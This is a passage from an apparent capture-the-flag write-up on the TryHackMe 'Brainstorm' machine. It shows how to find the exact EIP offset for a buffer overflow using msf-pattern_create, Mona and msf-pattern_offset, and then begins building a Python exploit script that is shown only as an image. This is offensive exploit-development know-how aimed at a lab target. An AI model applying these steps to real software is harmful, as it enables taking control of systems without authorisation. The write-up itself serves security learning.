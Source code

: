 Now we have confirmed that we can cause a buffer overflow we need to find the exact number of characters to send so we can take control of EIP. We can use the Meterpreter script to generate a unique string for this:

```text
root@kali:/home/kali/thm/brainstorm# msf-pattern_create -l 2500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A
<SNIP>
c8Ac9Ad9A0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5
```

You could also use Mona to do this by typing in the command bar at the bottom on Immunity:

```text
!mona pattern_create 2500
```

Send this to the message field as before, and when the program crashes check EIP in Immunity again:

![brainstorm-eip](/assets/images/2021-02-18-23-16-14.png)

This time we see the value in EIP is 31704330, now we use the msf pattern offset script to find what character length we need:

```text
root@kali:/home/kali/thm/brainstorm# msf-pattern_offset -l 2500 -q 31704330
[*] Exact match at offset 2012
```

If you used Mona to create your pattern then use it again to find the offset:

```text
!mona pattern_offset 31704330
```

Now we need to start building our python script that we'll use to exploit the application. I use the skeleton one from [here](https://github.com/gh0x0st/Buffer_Overflow) as a starter:

![brainstorm-script](/assets/images/2021-02-20-11-23-35.png)
